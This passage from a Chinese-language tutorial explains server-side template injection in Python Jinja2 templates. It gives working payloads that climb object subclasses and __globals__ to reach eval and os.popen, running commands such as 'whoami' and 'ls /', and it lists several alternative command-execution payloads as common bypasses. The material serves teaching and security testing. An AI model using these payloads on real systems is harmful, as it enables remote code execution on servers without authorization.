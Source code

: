 5. 通过某些手段找到某个函数是可用的，下一步利用这个类的__init__函数获取到__globals__全局变量。

```python
{{''.__class__.__base__.__subclasses__()[128].__init__}}
# <function _wrap_close.__init__ at 0x00000221629F5048>

{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__}}
# ..., 'eval': <built-in function eval>, ...
```

6. 再获取到__globals__全局变量里的__builtins__中的eval函数。

```python
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']}}
# {'__name__': 'builtins', '__doc__': ...

{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['eval']}}
# <built-in function eval>
```

7. 使用popen命令执行即可。

```python
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}
# root
```

# 常规绕过姿势

## 其他Payload

1. 获取基类  
    `__bases__`方法用来查看某个类的基类，也可以使用数组索引来查看特定位置的值。通过该属性可以查看该类的所有直接父类。获取基类还能用`__mro__`方法，该方法可以用来获取一个类的调用顺序。也可以利用`__base__`方法获取直接基类。

```python
{{''.__class__.__bases__}}
# (<class 'object'>,)
{{''.__class__.__bases__[0]}}
# <class 'object'>
{{''.__class__.__mro__}}
# (<class 'str'>, <class 'object'>)
{{''.__class__.__base__}}
# <class 'object'>
```

2. 执行命令

```python
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['os'].popen('ls /').read()}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['popen']('whoami').read()}}
{{''.__class__.__base__.__subclasses__()[128]["load_module"]("os")["popen"]("ls /").read()}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['linecache']['os'].popen('ls /').read()}}
{{''.__class__.__base__.__subclasses__()[128]('whoami',shell=True,stdout=-1).communicate()[0].strip()}}
# root
```
